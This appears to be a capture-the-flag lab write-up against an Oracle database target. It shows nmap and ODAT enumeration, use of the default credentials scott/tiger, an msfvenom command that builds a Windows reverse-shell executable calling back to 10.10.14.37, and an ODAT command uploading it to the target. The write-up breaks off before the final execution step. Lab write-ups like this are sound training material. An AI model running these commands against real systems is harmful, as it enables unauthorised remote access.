 1. Initial nmap enumeration scans showed this target was running Oracle TNS listener 11.2.0.2.0.  I started by scanning the site with ODAT to discover the SID's XE and XEXDB.  Using the XE SID, I found credentials `scott/tiger`.
   ![image-20201114214534283](.Report.assets/image-20201114214534283.png)
   
2. Using these credentials and the ODAT tool, I am able to upload a file to the server and execute it.  So I created a reverse shell exectuable:

   ```bash
   msfvenom -p windows/shell_reverse_tcp LPORT=8000 LHOST=10.10.14.37 --platform wind
   ows -a x86 --format exe -o win_revtcp_8000.exe
   ```

3. Then I uploaded the exe to the target:

   ```bash
   odat utlfile -s 10.10.10.82 -p 1521 -U scott -P tiger -d XE --sysdba --putFile c:/ win_revtcp_8000.exe /home/coyote/htblab/oscp_like/82/win_revtcp_8000.exe
   ```

   ![image-20201115140914496](.Report.assets/image-20201115140914496.png)

4. Finally, I started a netcat listener and remotely executed the executable to get a reverse shell as SYSTEM:
